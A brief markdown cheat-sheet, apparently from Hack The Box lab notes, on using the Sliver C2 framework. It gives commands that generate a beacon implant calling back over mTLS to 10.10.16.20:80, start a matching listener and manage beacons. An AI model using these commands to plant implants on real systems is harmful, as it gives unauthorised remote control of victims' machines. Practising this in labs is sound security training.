 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
ID | Name | Protocol | Port | Stage Profile 
--- ------ ---------- -----  ------------
 1   mtls    tcp        80                   
sliver > `use beacons`    

